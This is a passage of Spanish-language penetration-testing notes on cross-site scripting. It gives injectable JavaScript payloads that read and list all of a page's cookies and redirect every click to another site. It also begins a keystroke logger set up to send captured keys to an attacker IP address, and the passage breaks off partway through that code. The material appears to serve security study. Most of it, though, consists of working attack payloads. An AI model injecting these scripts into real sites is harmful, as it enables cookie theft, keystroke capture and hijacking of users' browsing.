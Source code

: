 viendo el objeto `navigator` podemos obtener otra informacion

### CAPTURE ALL COOKIES

```html
<script>
	let cookies=document.cookie.split(';')
	let resultado="";
	for(let i=0;i<cookies.length;i++)
	{
		let parser = cookies[i].split('=');
		let name=parser[0];
		let valor=parser[1];
		resultado+="nombre: "+name+" <---> valor: "+valor+"\n";
	}
	alert(resultado);
</script>
```

### CAPTURE ALL CLICKS

redireccionar todos los clicks en el body a google:

```html
<script>
	function atraparClicks(){
		location.href = "https://www.google.com";
	}

	document.body.addEventListener('click',atraparClicks,true);
</script>
```

o

```html
<script>
    function windowEvent(){
    	window.location.replace("http://pentesteracademy.com");
    }

    window.captureEvents(Event.CLICK);
    window.onclick=windowEvent;
</script>
```

el ultimo valor (true) indica que se ejecutara primero:

[https://stackoverflow.com/questions/7398290/unable-to-understand-usecapture-parameter-in-addeventlistener](https://stackoverflow.com/questions/7398290/unable-to-understand-usecapture-parameter-in-addeventlistener)

### KEYSTROKE LOGGING

```html
<script>
	//array con las letras
	let buffer = [];
	//IP atacante para enviar por GET
	let attacker_IP = "http://1.16.1.230:8000/?c=";
	//capturar lo que se escribe	
	document.onkeypress = (e)=>{
		let timestamp = Date.now() | 0;
		let keystroke = {
			k: e.key,
			t: timestamp
		};

```